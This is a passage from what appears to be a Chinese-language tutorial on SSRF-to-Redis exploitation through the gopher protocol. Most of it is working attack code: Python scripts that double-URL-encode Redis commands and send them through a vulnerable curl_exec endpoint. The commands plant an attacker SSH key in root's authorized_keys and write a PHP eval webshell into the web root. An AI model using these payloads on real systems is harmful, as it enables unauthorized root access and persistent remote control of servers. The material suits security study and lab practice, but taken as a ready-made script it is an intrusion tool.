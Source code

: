 ```python
data = """config set dir /root/.ssh/
config set dbfilename authorized_keys
set margin "\\n\\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdIj0d7vofujQU9H2eYIboU16EKy61mAalJXYP66sPINFEToBb7YeaROlpg6/B5u+lgcjOq2X+zxQwid4pSS2xj2kbornpeDXHh9boQqAzDdWgGBuRYi6scfiQ9hY0BN2rQ44gimQkKibM7MJR7XmqnUg/pgIgbepDRlYghj0DUW2iHE9a/z4aZXEZE1SN29OUyQmy/4OOIsCsmmjZBYJ/zmFaWG2aYbGRQDuc6iDITqN1T+CuNQ3PNZUb7GgZQ8FbJHgcFbOjNbfMBcP1SRoKKtA7YIx4eyFw0xUxKPwiAKDIWf3HqlfxTpGeoqMDyPumCioCNeDqeR5Wmy6q9OSn margin@margine.local\\n\\n"
save
quit

"""

def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

# 二次编码
encoder = encoder_url(encoder_url(data))

print encoder
# 生存payload
payload = url + urllib.quote(gopher,'utf-8') + encoder

# 发起请求
request = urllib2.Request(payload)
response = urllib2.urlopen(request).read()
print response
```

### 0x04 写webshell
经过上面文章的学习，对于写webshell来说便变得非常简单，要完成此操作，需要两个前提条件

- 当前运行redis的用户在web目录有写权限
- 知道web目录的绝对路径

步骤比较简单，原理还是利用Redis的备份功能，只不过这次是备份成webshell（redis所在的服务器需要phpstudy环境）<br />修改python中的payload，如下：
```
"config set dir /var/www/html/
config set dbfilename margin.php
set margin "\\n<?php eval($_POST['margin']);?>\\n"
save
quit

"""
```
python代码如下
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
gopher = "gopher://192.168.0.67:6379/_"

# 攻击脚本
data = """config set dir /var/www/html/
config set dbfilename margin.php
set margin "\\n<?php eval($_POST['margin']);?>\\n"
save
quit
```
